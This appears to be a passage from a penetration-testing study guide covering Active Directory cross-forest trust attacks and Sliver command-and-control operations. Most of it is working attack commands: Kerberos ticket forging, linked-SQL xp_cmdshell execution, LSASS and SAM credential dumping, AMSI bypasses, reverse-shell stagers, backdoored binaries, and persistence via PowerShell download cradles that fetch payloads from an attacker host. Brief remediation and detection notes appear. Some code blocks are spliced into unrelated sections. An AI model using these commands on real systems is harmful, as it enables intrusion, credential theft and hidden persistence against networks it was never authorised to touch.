12.14 SID Filter Bypass (CVE-2020-0665)
CVE-2020-0665 is a logic flaw in Active Directory (patched February 2020) that allows bypassing SID filtering to compromise domain-joined member servers in a trusted forest. It exploits the transitive nature of forest trusts: when a new subdomain is added to Forest-A, Forest-B automatically picks up its SID within 24 hours via the NetrGetForestTrustInformation Netlogon call.
Root cause: Domain-joined servers have local domains in SAM with their own SIDs. AD is unaware of these local SIDs. By replacing a subdomain's SID in Forest-A with the local SID of a server in Forest-B, Forest-B's trust framework will accept inter-realm tickets containing that SID. This allows forging tickets with the local Administrator SID (RID 500) of the target server.
12.14.1 Attack Requirements
| Requirement | Description |
|---|---|
| Two-way Transitive Trust | Between the two forests |
| Child Domain | Forest-A must have a subdomain whose SID can be replaced |
| Domain-joined server | Forest-B must have at least one member server (not a DC) |
| Unpatched systems | Target forest DCs must lack the February 2020 patch |
12.14.2 Performing the Attack
Step 4: Convert both SIDs to binary representation and update frida_intercept.py: replace var buf1 with the child domain SID binary and var newsid with the target server's local SID binary.
# Step 1: Get local SID of target server
proxychains python getlocalsid.py [domain]/[email protected] SQL02
# Local SID: [domain-sid]
# Step 2: Get child domain SID and parent domain SID
proxychains lookupsid.py [domain]/Administrator:'PASS'@[target-ip] | grep "Domain SID"
# child.[domain] SID: [domain-sid]
proxychains lookupsid.py [domain]/Administrator:'PASS'@[dc-ip] | grep "Domain SID"
# [domain] SID: [domain-sid]
# Step 3: Get inter-realm trust keys
Get-ADObject -LDAPFilter '(objectClass=trustedDomain)' | select name,objectguid
.\mimikatz.exe "lsadump::dcsync /guid:{8d52f9da-361b-4dc3-8fa7-af5f282fa741}" "exit"
# aes256_hmac: 179e4ae68e627e1fd4014c87854e7f60b0c807eddbcaf6136ddf9d15a6d87ad8# SID to binary converter
input_string = '[domain-sid]'
prefix = 'S-1-5-21-'
components = input_string.split(prefix, 1)
if len(components) > 1:
remaining_string = components[1]
split_values = remaining_string.split('-')
output_list = []
for i in split_values:
decimal_number = int(i)
hexadecimal_value = hex(decimal_number)[2:].zfill(8)
little = ' '.join([hexadecimal_value[i:i+2] for i in range(len(hexadecimal_value)-2, -2, -2)])
bytes_list = little.split()
formatted_bytes = ', '.join([f"0x{byte.upper()}" for byte in bytes_list])
output_list.append(formatted_bytes)
final_output = ', '.join(output_list)
print("0x01, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x05, 0x15, 0x00, 0x00, 0x00, " + final_output)
# Step 5: Run Frida interception as SYSTEM on parent DC
.\PsExec.exe -s -i powershell.exe
python frida_intercept.py lsass.exe
# Step 6: Wait for trust info refresh (24h real / 2min in lab), then forge ticket
mimikatz # kerberos::golden /domain:[domain] /sid:[domain-sid] /user:user1 /target:[foreign-domain] /service:krbtgt /sids:[sid] /aes256:179e4ae68e627e1fd4014c87854e7f60b0c807eddbcaf6136ddf9d15a6d87ad8
# Step 7: Request TGS for the target server
kekeo # tgs::ask /tgt:ticket.kirbi /service:cifs/[email protected] /kdc:[foreign-dc-fqdn] /ptt
# Step 8: Access the target server
dir \\SQL02.[foreign-domain]\c$Methodology
-
proxychains python getlocalsid.py domain/user@DC targetserver -
mimikatz # lsadump::dcsync /guid:{TRUST_GUID} -
python frida_intercept.py lsass.exe -
mimikatz # kerberos::golden ... /sids:LOCAL_SID-500 ... -
kekeo # tgs::ask /tgt:ticket.kirbi /service:cifs/server@domain /kdc:DC /ptt
Remediation
Apply the February 2020 security update (KB4537806 and related). Ensure all DCs in both forests are patched. Monitor for unusual inter-realm ticket requests. Implement Selective Authentication on forest trusts.
12.15 Abusing SQL Server Links (Cross-Forest)
Cross-forest MSSQL linked servers allow SQL instances in different forests to exchange data. If an attacker compromises a SQL server with a configured link to another forest, they can abuse that link to compromise the remote server. Two scenarios exist: direct privileged access (sysadmin mapping) and privilege escalation through trustworthy databases.
12.15.1 Privileged Access to Server Links
When a domain user is granted remote login as sa (sysadmin) on a linked server, they have full control.
Enumeration (Windows):
Import-Module .\PowerUpSQL.ps1
Get-SQLServerLink
# Check LocalLogin and RemoteLoginName attributes
Get-SQLQuery -Query "EXEC sp_helplinkedsrvlogin"
# Confirms jimmy maps to sa on SQL02Abuse (Windows via SSMS):
-- Verify sysadmin rights
SELECT * FROM OPENQUERY("SQL02\SQLEXPRESS",'SELECT IS_SRVROLEMEMBER(''sysadmin'')')
-- Enable xp_cmdshell
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "SQL02\SQLEXPRESS"
-- Execute commands
EXECUTE('xp_cmdshell "whoami"') AT "SQL02\SQLEXPRESS"Enumeration and Abuse (Linux):
# Connect and enumerate links
mssqlclient.py [email protected] -windows-auth
SQL> enum_links
# Connect to linked server (changes to sa context)
SQL> use_link "SQL02\SQLEXPRESS"
# Enable xp_cmdshell and execute commands
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami12.15.2 Trustworthy Database Escalation
When the user only has public privileges but is the db_owner of a trustworthy database owned by sa, they can create a stored procedure that executes as the owner (sa) to grant themselves sysadmin.
Enumeration (Windows via SSMS):
-- Check login name on linked server
SELECT * FROM OPENQUERY("SQL02\SQLEXPRESS",'SELECT SUSER_NAME()')
-- Check for trustworthy databases
SELECT * FROM OPENQUERY("SQL02\SQLEXPRESS",'SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name;')
-- Verify db_owner role
EXEC ('sp_helpuser') AT "SQL02\SQLEXPRESS"
-- Verify database owner is sa
SELECT * FROM OPENQUERY("SQL02\SQLEXPRESS",'SELECT name as database_name, SUSER_NAME(owner_sid) AS owner, is_trustworthy_on AS TRUSTWORTHY from sys.databases;')Abuse (Windows):
-- Verify RPC is enabled
SELECT is_rpc_out_enabled FROM sys.servers WHERE name='SQL02\SQLEXPRESS'
-- Create stored procedure that runs as OWNER (sa)
EXEC ('CREATE PROCEDURE sp_escalate WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember ''htb-dbuser'',''sysadmin''') AT "SQL02\SQLEXPRESS"
-- Execute the procedure and verify sysadmin
EXEC ('sp_escalate;SELECT IS_SRVROLEMEMBER(''sysadmin'')') AT "SQL02\SQLEXPRESS"
-- Enable xp_cmdshell and execute commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "SQL02\SQLEXPRESS"
EXECUTE('xp_cmdshell "whoami"') AT "SQL02\SQLEXPRESS"Abuse (Linux):
# Connect and switch to linked server
mssqlclient.py [email protected] -windows-auth
SQL> use_link "SQL02\SQLEXPRESS"
# Enumerate trustworthy databases and db_owner roles
SQL> enum_db
SQL> enum_users
# Create escalation stored procedure
SQL> USE "htb-reports"
SQL> CREATE PROCEDURE sp_escalate WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember 'htb-dbuser','sysadmin'
SQL> EXEC sp_escalate
# Enable xp_cmdshell
SQL> exec master.dbo.sp_configure "show advanced options",1;RECONFIGURE;exec master.dbo.sp_configure "xp_cmdshell",1;RECONFIGURE;
SQL> exec master..xp_cmdshell "whoami"Methodology
-
Get-SQLServerLink -
EXEC sp_helplinkedsrvlogin SELECT * FROM OPENQUERY("LINKED\SERVER",'SELECT IS_SRVROLEMEMBER(''sysadmin'')') -
SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name -
CREATE PROCEDURE sp_escalate WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember 'user','sysadmin' -
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "LINKED\SERVER"
Remediation
Remove unnecessary SQL Server linked servers. Use least-privilege for linked server login mappings (never map to sa). Set TRUSTWORTHY to OFF on all databases. Avoid granting db_owner to non-administrative users. Disable xp_cmdshell. Monitor for stored procedure creation and xp_cmdshell execution.
12.16 Abusing Foreign Security Principals and ACLs (Cross-Forest)
In cross-forest environments, users from one forest can only be added to Domain Local groups in another forest (Global groups are limited to the same domain; Universal groups to the same forest). When such cross-forest membership exists, a Foreign Security Principal (FSP) object is created in the target domain's FSP container to represent the foreign user.
12.16.1 Enumerating Foreign Security Principals
# Find FSPs in the target domain
Get-DomainObject -LDAPFilter '(objectclass=ForeignSecurityPrincipal)' -Domain [foreign-domain]
# Convert FSP SID to username
ConvertFrom-SID [sid]
# [DOMAIN]\[user]
# Find which groups the foreign user belongs to
Import-Module .\PowerView.ps1
Get-DomainForeignGroupMember -Domain [foreign-domain]
# GroupName: svc_admins, MemberName: SID -> [DOMAIN]\[user]12.16.2 Abusing Foreign Group Membership
# Create sacrificial logon session
.\Rubeus.exe createnetonly /program:powershell.exe /show
# Request TGT for the foreign group member
.\Rubeus.exe asktgt /user:[user] /password:[password] /domain:[domain] /ptt
# Access resources in the foreign domain with inherited privileges
type \\[foreign-dc-fqdn]\FSP_Flag\flag.txt12.16.3 Abusing Foreign ACL Principals
Users from one forest can also have ACL permissions on objects in another forest.
# Enumerate ACLs for a specific user across forests
$sid = Convert-NameToSid [user]
Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain [foreign-domain] | ? {$_.SecurityIdentifier -eq $sid}
# Result: [user] has GenericAll on [foreign-domain]\[target-user]
# Abuse GenericAll to reset [target-user]'s password
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe asktgt /user:[user] /password:[password] /domain:[domain] /ptt
Import-Module .\PowerView.ps1
$pass = ConvertTo-SecureString '[new-password]' -AsPlainText -Force
Set-DomainUserPassword -Identity [target-user] -AccountPassword $pass -Domain [foreign-domain]
# Request TGT as [target-user] and access resources
.\Rubeus.exe asktgt /user:[target-user] /password:'[new-password]' /domain:[foreign-domain] /pttMethodology
-
Get-DomainObject -LDAPFilter '(objectclass=ForeignSecurityPrincipal)' -Domain target.forest -
Get-DomainForeignGroupMember -Domain target.forest -
$sid = Convert-NameToSid username Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain target.forest | ? {$_.SecurityIdentifier -eq $sid} -
.\Rubeus.exe asktgt /user:foreignuser /password:pass /domain:our.domain /ptt
Remediation
Audit all FSP objects and cross-forest group memberships. Remove unnecessary foreign memberships. Use Selective Authentication. Monitor Event ID 4769 for cross-forest TGS requests. Audit ACLs on sensitive objects for foreign SIDs.
12.17 Abusing PAM Trusts
Privileged Access Management (PAM) uses a bastion (administrative) forest to manage user/production forests via a one-way PAM trust. Shadow security principals in the bastion forest are mapped to SIDs of high-privilege groups (e.g., Enterprise Admins) in the user forests. Users in the bastion forest who are members of shadow principals inherit those privileges without direct group membership changes in the user forest.
Root cause: Shadow principals reside in CN=Shadow Principal Configuration,CN=Services,CN=Configuration of the bastion forest. They contain the msDS-ShadowPrincipalSid attribute mapping to Enterprise Admins or Domain Admins SIDs in user forests. Any member of the shadow principal gains those privileges across the trust.
12.17.1 Enumerating and Abusing PAM Trust
Creating Shadow Principals (if compromised bastion has none):
# Enumerate Shadow Principals in the bastion forest
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl
# Output shows:
# Name: Tom
# member: {CN=Administrator,CN=Users,DC=controlcenter,DC=corp}
# msDS-ShadowPrincipalSid: [sid]
# Access the managed user forest as Administrator
ls \\DC-EU.eulogistics.corp\c$# Get Enterprise Admins SID from user forest
$ShadowPrincipalSid = (Get-ADGroup -Identity 'Enterprise Admins' -Properties ObjectSID -Server eulogistics.corp).ObjectSID
# Create Shadow Principal in bastion forest
$Container = 'CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=controlcenter,DC=corp'
New-ADObject -Type msDS-ShadowPrincipal -Name "Tom" -Path $Container -OtherAttributes @{'msDS-ShadowPrincipalSid'= $ShadowPrincipalSid}
# Add attacker-controlled user as member
Set-ADObject -Identity "CN=Tom,CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=controlcenter,DC=corp" -Add @{'member'="CN=Administrator,CN=Users,DC=controlcenter,DC=corp"} -VerboseMethodology
-
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | fl Name,member,msDS-ShadowPrincipalSid -
ls \\DC.userforest.corp\c$ -
New-ADObject -Type msDS-ShadowPrincipal -Name "backdoor" -Path $Container -OtherAttributes @{'msDS-ShadowPrincipalSid'=$EA_SID}
Remediation
Protect the bastion forest heavily because it is the single point of control. Implement MFA for all bastion forest access. Use time-limited shadow principal memberships (PAM feature). Monitor shadow principal creation and membership changes. Limit who can create objects in the Shadow Principal Configuration container. Audit all existing shadow principal mappings regularly.
12.18 Trust Attack Mitigations and Detections
Trust attacks cannot always be fully prevented. If a child domain in a forest is compromised, the parent domain can be compromised via ExtraSIDs. Defenses focus on layered protections that limit blast radius and enable early detection.
12.18.1 Hardening Considerations
| Measure | Description |
|---|---|
| Selective Authentication | Only allow necessary accounts to authenticate across trusts. Prevents unconstrained delegation abuse and limits attack surface. |
| One-Way Trusts | Prefer one-way over two-way trusts where possible to limit access direction. |
| SID Filtering | Enable on external/forest trusts to prevent ExtraSIDs attacks. Filters SIDs with RID < 1000 by default. |
| Non-Transitive Trusts | Use where appropriate to prevent trust from extending beyond intended scope. |
| Trust Validation | Regularly review and remove unnecessary trusts. |
| Trust Monitoring | Track trust-related activities for unauthorized manipulation attempts. |
| Strong Authentication | Enforce Kerberos mutual authentication for trust communications. |
| Firewall Rules | Restrict network traffic between trusted domains to necessary ports. Limit WinRM access to DCs. |
| Credential Protection | Strong passwords, regular rotation, managed service accounts. |
| Security Updates | Keep all systems patched (critical for CVE-2020-0665 and similar). |
| MFA on DCs | Prevent RDP access with stolen credentials. |
Methodology
-
Get-ADTrust -Filter * | Select Name, Direction, TrustType, SelectiveAuthentication, SIDFilteringQuarantined -
Stop-Service Spooler; Set-Service Spooler -StartupType Disabled
12.18.2 Detections
Event ID 4769 (Kerberos Service Ticket Request) is the primary detection mechanism for cross-forest trust attacks. Monitor for:
- TGT requests where the Account Domain references a different forest
- Service ticket requests for DCs from external accounts
- Encryption type 0x17 (RC4) in ticket requests (Golden Ticket indicator)
- Tickets with abnormally long lifetimes
Event ID 4768 (TGT Request); monitor for cross-domain AS-REQ requests.
Event ID 5136 (Directory Service Object Modification); monitor for Configuration NC changes, especially in Certificate Templates, Sites, and DNS containers.
Event ID 4720 (User Account Created); detect backdoor user creation from GPO attacks.
Event ID 4728/4732/4756 (Group Membership Changes); detect unauthorized additions to privileged groups.
Advanced detection: Organizations can use Kusto Query Language (KQL) in Microsoft Sentinel to comprehensively track trust enumeration activities.
# View Event ID 4769 in Event Viewer
# Windows Logs > Security > Filter Current Log > Event ID: 4769
# Look for Account Domain referencing external forests13. C2 Operations with Sliver
13.1 Introduction to C2s and Sliver
A command and control (C2) server is software that executes commands or binaries on remote computers. It provides a centralized management system where an operator manages access to compromised machines across a network. The operator carries out simulated (or real) attacks and manages the C2 software. Initial access can be gained through SQL injection, weak credentials on services (SSH, RDP), web application vulnerabilities, or via assumed breach scenarios in red team engagements.
13.1.1 Attack Lifecycle (Cyber Kill Chain)
Developed by Lockheed Martin in 2011, the Cyber Kill Chain categorizes the attack lifecycle into seven steps. One critical aspect not explicitly listed is Operational Security (OpSec): minimizing footprints to hide presence on target systems.
# Find users who are members of groups outside their domain
Import-Module .\PowerView.ps1
Get-DomainForeignUser
# Get details about the group they belong to
Get-DomainGroup -Identity '[group-name]' -domain [domain] | Select memberof| Phase | Description |
|---|---|
| Reconnaissance | Gathering information about the target (active/passive scanning, OSINT) |
| Weaponization | Developing the payload for foothold access |
| Delivery | Transferring the payload to the target |
| Exploitation | Executing the payload on the target |
| Installation | Establishing initial control over the target |
| Command & Control | Establishing a communication channel from target to C2 server |
| Actions on Objectives | Carrying out intended goals (data theft, exfiltration, etc.) |
13.1.2 Sliver Overview
Sliver provides three key components:
- Implants: Binaries/executables used to preserve access to a target, facilitated by the C2 server
- Beacons: The process of communicating from the target host to the C2 over a set interval (non-interactive, executes commands at intervals)
- Stagers: Small code executed on a remote machine that loads a larger payload (staging protocol supports TCP and HTTP/S)
Key distinction: Beacon mode (BLUE in Sliver console) operates in intervals and is less likely to alert defenders due to non-constant traffic. Session mode (RED) provides immediate interactive command execution. Beacons can be upgraded to sessions using the interactive command.
13.1.3 Installation and Setup
Sliver has two components: the Server (where implants communicate back to) and the Client (where the operator executes commands). Running them separately prevents losing callbacks if you accidentally terminate the process.
# Download and start the server
wget -q https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-server_linux
chmod +x ./sliver-server_linux
./sliver-server_linuxOperator profile and multiplayer mode:
# Generate an operator profile on the server
[server] sliver > new-operator -n student -l [attacker-ip]
# Enable multiplayer mode (required for client connections)
[server] sliver > multiplayer
# Download and start the client
wget -q https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-client_linux
chmod +x ./sliver-client_linux
./sliver-client_linux import student_[attacker-ip].cfg
./sliver-client_linux13.1.4 Armory
The Armory is Sliver's library of precompiled .NET binaries and extensions that can be executed on victim machines. Key extensions commonly used include: Rubeus, Seatbelt, sharpersist, sharpsh, sharpup, c2tc-domaininfo, certify, inline-execute-assembly, c2tc-kerberoast, nanodump, sharpview, bof-roast, and sharp-hound-4.
# List available extensions
sliver > armory
# Install a specific extension
sliver > armory install seatbelt
# Install all extensions
sliver > armory install allMethodology
-
wget -q https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-server_linux chmod +x ./sliver-server_linux && ./sliver-server_linux -
[server] sliver > new-operator -n operator1 -l [attacker-ip] [server] sliver > multiplayer -
./sliver-client_linux import operator1_[attacker-ip].cfg ./sliver-client_linux -
sliver > armory install all
13.2 Implants, Beacons, and Listeners
Implants are generated using the generate command with various protocol options: mTLS, HTTP(S), DNS, named pipes, and TCP pivots. Named pipes and TCP pivots are primarily used for pivoting between internal targets.
13.2.1 Generating Implants
Key generation flags:
| Flag | Description |
|---|---|
-J / --jitter | Sets the jitter time for callback fluctuation |
-S / --seconds | Sets the callback interval (default: 60s) |
--skip-symbols | Disables symbol obfuscation (smaller binary but easily identifiable via strings) |
-N | Sets a custom name for the implant |
--os | Target operating system |
--format | Output format: exe, shared, service, shellcode (Windows only) |
# Generate an HTTP beacon (no symbol obfuscation, ~11MB)
sliver > generate beacon --http 127.0.0.1 --skip-symbols -N http_beacon --os windows
# Generate an HTTP beacon WITH symbol obfuscation (~17MB)
sliver > generate beacon --http 127.0.0.1 -N http_beacon_obfuscated --os windowsWhy symbol obfuscation matters: Without obfuscation (--skip-symbols), the binary contains plaintext strings like github.com/bishopfox/sliver/implant/sliver/version/version_windows.go that immediately identify the implant as Sliver. With obfuscation enabled, these are scrambled, making static analysis harder.
13.2.2 Listeners
A listener must match the protocol used when generating the implant. Without a listener, no beacon or session can be established.
# Start an HTTP listener
sliver > http --lport 8088
# Start an HTTPS listener
sliver > https --lport 443
# Start an mTLS listener
sliver > mtls
# View active listeners
sliver > jobs13.2.3 Named Pipes and Pivots
Named pipes follow the format \\ServerName\pipe\PipeName and are used for pivoting on Windows systems. A pivot listener is similar to a bind shell; you start a listener on Host A, and Host B connects to it, establishing a communication chain. This is used in environments with restricted traffic routing.
# Start a named pipe pivot listener on an active session
sliver (session) > pivots named-pipe --bind academy
# Generate a pivot implant
sliver > generate --named-pipe 127.0.0.1/pipe/academy -N pipe_academy --skip-symbols13.2.4 OpSec Considerations for Listeners
Using HTTPS, mTLS, or WireGuard listeners adds encryption and legitimacy to C2 traffic. The HTTP(S) C2 profile at ~/.sliver/config/http-c2.json can be customized to add legitimate request/response headers and modify URL patterns to blend in with normal traffic.
Methodology
-
sliver > generate beacon --http [attacker-ip]:8088 --skip-symbols -N http-beacon --os windows -
sliver > http --lport 8088 -
sliver > use <beacon-id>
13.3 Initial Access and Stagers
Sliver supports the Meterpreter staging protocol over TCP and HTTP(S). Stagers use profiles (implant blueprints defining reusable configurations) combined with stage-listeners and payloads generated through msfvenom.
13.3.1 Setting Up Stagers
# Create a profile
sliver > profiles new --http [attacker-ip]:8088 --format shellcode htb
# Create a stage listener
sliver > stage-listener --url tcp://[attacker-ip]:4443 --profile htb
# Start the HTTP listener
sliver > http -L [attacker-ip] -l 8088
# Generate a stager in C# format
sliver > generate stager --lhost [attacker-ip] --lport 4443 --format csharp --save staged.txt13.3.2 Web Application Exploitation with ASPX Stager
When targeting a web application running ASP.NET on IIS (Windows Server), test for unrestricted file upload. Generate an ASPX payload using msfvenom, then replace the shellcode byte array with the Sliver stager output:
# Generate msfvenom ASPX payload (template)
msfvenom -p windows/shell/reverse_tcp LHOST=[attacker-ip] LPORT=4443 -f aspx > sliver.aspxReplace the byte[] mO0UY array in the generated ASPX file with the shellcode from staged.txt. Upload via the web application's upload functionality and visit the uploaded file to trigger execution.
OpSec Note: The default msfvenom .NET web shell is heavily signatured by AV vendors. Consider using obfuscated web shells like SharpyShell for command execution, then deliver the Sliver implant through that channel.
Methodology
-
sliver > profiles new --http [attacker-ip]:8088 --format shellcode htb sliver > stage-listener --url tcp://[attacker-ip]:4443 --profile htb -
sliver > generate stager --lhost [attacker-ip] --lport 4443 --format csharp --save staged.txt msfvenom -p windows/shell/reverse_tcp LHOST=[attacker-ip] LPORT=4443 -f aspx > sliver.aspx -
sliver > sessions sliver > use <session-id>
13.4 Commands and Tools
Sliver provides both OS-agnostic and platform-specific commands. Understanding the internals helps operators customize and enhance the framework.
13.4.1 Basic Commands
| Command | Description | Notes |
|---|---|---|
cat <path> | Display file contents | Supports hex dump (-x), colorized output (-c), and saving as loot (-X) |
cd <path> | Change working directory | No error if path not specified |
ls | List directory contents | Works on remote paths (e.g., //hostname/c$) |
download <path> | Download files/directories | Directories downloaded as .tar.gz; supports filters (*.conf) |
upload <local> <remote> | Upload files to target | Use \\ or / for Windows paths |
ifconfig | Display network adapters | Reveals internal network access without spawning a shell |
ps | List processes | Use -e <name> to filter by process name |
13.4.2 execute-assembly
execute-assembly loads and executes .NET assemblies in a child process on the target, without uploading the binary to disk. By default, it spawns a notepad.exe sacrificial process.
# Run a .NET binary
sliver (session) > execute-assembly /path/to/Seatbelt.exe -group=system
# Run using the armory alias (note the --)
sliver (session) > seatbelt -- -group=systemOpSec concerns with execute-assembly:
Change the default process with --process flag to something more believable.
Methodology
-
sliver (session) > ls C:\\Users sliver (session) > cat C:\\Users\\eric\\Desktop\\flag.txt -
sliver (session) > download C:\\Users\\eric\\Documents -
sliver (session) > seatbelt -- -group=all sliver (session) > execute-assembly /path/to/SharpView.exe "Get-NetUser"
13.5 Privilege Escalation
After establishing a foothold, privilege escalation is the next critical step. This includes enumerating misconfigurations, abusing token privileges, and elevating to SYSTEM.
13.5.1 Enumeration with Seatbelt and SharpUp
Seatbelt enumerates security-relevant information (AMSI providers, AppLocker policies, antivirus, services, etc.). SharpUp (C# port of PowerUp) specifically targets privilege escalation vectors: modifiable services, unquoted service paths, token privileges, etc.
# Run Seatbelt via armory
sliver (session) > seatbelt -- -group=all
# Run SharpUp for privilege escalation checks
sliver (session) > sharpup -- auditKey finding: The SeImpersonatePrivilege is commonly enabled for IIS service accounts and other service accounts. This privilege can be exploited using Potato exploits (GodPotato, SweetPotato, etc.).
13.5.2 SeImpersonatePrivilege Abuse with GodPotato
# Verify SYSTEM execution via GodPotato
sliver (session) > execute-assembly /path/to/GodPotato-NET4.exe -cmd "whoami"
# Output: nt authority\system13.5.3 Donut for In-Memory Execution
Donut creates position-independent shellcode from .NET assemblies that can be executed in memory via Sliver's execute-shellcode command. This avoids writing the binary to disk.
# Generate a beacon implant
sliver > generate beacon --http [attacker-ip]:9002 --skip-symbols -N http-beacon
# Upload the beacon to the target
sliver (session) > upload http-beacon.exe C:\\Temp\\http-beacon.exe
# Start a listener for the new beacon
sliver > http --lhost [attacker-ip] --lport 9002
# Generate shellcode with Donut (AMSI bypass, amd64)
./donut -i GodPotato-NET4.exe -a 2 -b 2 -p '-cmd c:\temp\http-beacon.exe' -o godpotato.binCreate a sacrificial process using Rubeus (to avoid crashing important processes), then inject the shellcode:
# Create sacrificial notepad process
sliver (session) > execute-assembly Rubeus.exe createnetonly /program:C:\\windows\\system32\\notepad.exe
# Inject shellcode into the sacrificial process
sliver (session) > execute-shellcode -p 5668 /path/to/godpotato.bin13.5.4 getsystem
When running as a local administrator, the getsystem command spawns a new SYSTEM session by injecting into a SYSTEM-owned process (default: spoolsv.exe). This requires an interactive session (not a beacon).
# Upgrade beacon to session
sliver (beacon) > interactive
# Switch to the new session and run getsystem
sliver (session) > getsystemHow getsystem works: It enables SeDebugPrivilege, finds the target SYSTEM process, and uses RemoteTask to inject shellcode via CreateRemoteThread. This creates a new beacon/session running as NT AUTHORITY\SYSTEM.
13.5.5 Credential Dumping
From a SYSTEM beacon, dump local SAM hashes and LSASS memory:
# Dump local SAM hashes (requires SYSTEM)
sliver (beacon) > hashdump
# Find LSASS PID
sliver (beacon) > ps -e lsass
# Dump LSASS process memory
sliver (beacon) > procdump --pid 660 --save /tmp/lsass.dmp
# Parse the dump offline with pypykatz
pypykatz lsa minidump /tmp/lsass.dmpAlternative using nanodump (from armory):
sliver (session) > nanodump 656 web01-lsass 1 PMDM
sliver (session) > download web01-lsass
python3 -m pypykatz lsa minidump web01-lsassMethodology
-
sliver (session) > seatbelt -- -group=all sliver (session) > sharpup -- audit -
sliver (session) > execute-assembly GodPotato-NET4.exe -cmd "whoami" -
sliver (session) > getsystem -
sliver (beacon) > hashdump sliver (beacon) > procdump --pid <lsass_pid> --save /tmp/lsass.dmp

13.6 Persistence
Persistence ensures continued access without repeating initial exploitation steps. Techniques include scheduled tasks, startup folder entries, registry Run keys, and binary backdooring.
13.6.1 Scheduled Tasks
Create a scheduled task that periodically downloads and executes a stager using base64-encoded PowerShell:
# Encode the download cradle
echo -en "iex(new-object net.webclient).downloadString('http://[attacker-ip]:8088/stager.txt')" | iconv -t UTF-16LE | base64 -w 0
# Create the scheduled task via Sliver
sliver (beacon) > execute powershell 'schtasks /create /sc minute /mo 1 /tn SecurityUpdater /tr "powershell.exe -enc <base64_payload>" /ru SYSTEM'13.6.2 Startup Folder (Logon Persistence)
Drop a .LNK file in the user's Startup folder (C:\Users\<user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup) using SharPersist:
sliver (beacon) > sharpersist -- -t startupfolder -c "powershell.exe" -a "-nop -w hidden iex(new-object net.webclient).downloadstring('http://[attacker-ip]:8088/stager.txt')" -f "Edge Updater" -m add13.6.3 Registry Run/RunOnce Keys
Add entries to registry Run keys to execute payloads on user logon:
# Add to HKLM Run key (requires admin)
sliver (beacon) > sharpersist -- -t reg -c "powershell.exe" -a "-nop -w hidden iex(new-object net.webclient).downloadstring('http://[attacker-ip]:8088/staged.txt')" -k "hklmrun" -v "AdvancedProtection" -m add
# List registry persistence entries
sliver (beacon) > sharpersist -- -t reg -k "hklmrun" -m list| Registry Key | Scope | Privilege Required |
|---|---|---|
HKCU\...\Run | Current user logon | Standard user |
HKCU\...\RunOnce | Current user (one-time) | Standard user |
HKLM\...\Run | All users logon | Administrator |
HKLM\...\RunOnce | All users (one-time) | Administrator |
13.6.4 Binary Backdooring
Sliver's built-in backdoor command infects a remote binary with shellcode. It replaces the original binary with a tampered version that executes shellcode when run.
# Create a shellcode profile
sliver > profiles new --format shellcode --http [attacker-ip]:9002 persistence-shellcode
# Start a listener
sliver > http -L [attacker-ip] -l 9002
# Backdoor PuTTY
sliver (session) > backdoor --profile persistence-shellcode "C:\Program Files\PuTTY\putty.exe"The backdoored binary may not function normally. PuTTY will not load, but the beacon callback will still occur. The process validates the profile, injects shellcode into the original binary, and uploads the modified version to replace the original.
Methodology
-
sliver (beacon) > execute powershell 'schtasks /create /sc minute /mo 1 /tn SecurityUpdater /tr "powershell.exe -enc <payload>" /ru SYSTEM' -
sliver (beacon) > sharpersist -- -t startupfolder -c "powershell.exe" -a "<args>" -f "Edge Updater" -m add -
sliver (beacon) > sharpersist -- -t reg -c "powershell.exe" -a "<args>" -k "hklmrun" -v "AdvancedProtection" -m add -
sliver (session) > backdoor --profile <profile> "C:\path\to\binary.exe"
13.7 Domain Reconnaissance
Domain reconnaissance requires a domain context, such as a domain user, SYSTEM on a domain-joined machine, or a machine account. Local accounts cannot query domain information effectively.
13.7.1 PowerView via sharpsh
sharpsh uses the RunSpaceFactory namespace to execute PowerShell commands. Host PowerView.ps1 on an HTTP server and load it remotely with base64-encoded commands:
# Encode the PowerView command
echo -n "get-netuser | select samaccountname,description" | base64
# Execute via sharpsh (HTTP request to load PowerView)
sliver (beacon) > sharpsh -- '-u http://[attacker-ip]:8081/PowerView.ps1 -e -c <base64_command>'13.7.2 SharpView (.NET PowerView)
SharpView is a .NET port of PowerView. Use it with AMSI and ETW bypass flags (-M and -E) and in-process execution (-i):
# Enumerate users with pre-auth disabled
sliver (beacon) > execute-assembly SharpView.exe "get-netuser -PreauthNotRequired" -t 240 -i -E -M
# Get domain information
sliver (beacon) > execute-assembly SharpView.exe "get-domain" -t 240 -i -E -M
# Enumerate constrained delegation
sliver (beacon) > sharpview Get-NetComputer -TrustedToAuth13.7.3 BOF and COFF Loaders
Beacon Object Files (BOFs) from the armory execute directly in the implant's process without spawning child processes:
# Get domain info via BOF
sliver (beacon) > c2tc-domaininfo
# Enumerate delegation
sliver (beacon) > delegationbof 6 [domain]13.7.4 ADCS Certificate Enumeration
Active Directory Certificate Services (ADCS) misconfigurations can lead to domain compromise. Use certify to enumerate:
sliver (beacon) > certify -- findLook for templates with ENROLLEE_SUPPLIES_SUBJECT flag and Client Authentication EKU; these indicate potentially exploitable ESC1 vulnerabilities.
13.7.5 Native Domain Enumeration
When PowerView or SharpView cannot be used, rely on built-in .NET namespaces:
# Using System.DirectoryServices
